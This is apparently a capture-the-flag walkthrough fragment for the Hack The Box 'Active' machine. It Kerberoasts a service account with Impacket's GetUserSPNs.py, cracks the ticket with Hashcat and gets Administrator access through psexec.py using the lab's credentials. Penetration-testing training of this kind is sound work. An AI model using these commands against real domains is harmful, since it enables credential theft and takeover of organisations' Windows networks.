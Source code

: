 **Here we make a request to the domain controller for a service ticket, and crack with Hashcat.**
```bash
psexec.py active.htb/svc_tgs:GPPstillStandingStrong2k18@$TARGET
```
The above does not work (Intentionally)
```bash
wget https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py
```
```bash
GetUserSPNs.py active.htb/svc_tgs:GPPstillStandingStrong2k18 -dc-ip $TARGET -request
```
==Insert service ticket here!==
Crack it with Hashcat.
[[Hashcat]]
```bash
psexec.py active.htb/Administrator:Ticketmaster1968@$TARGET
```
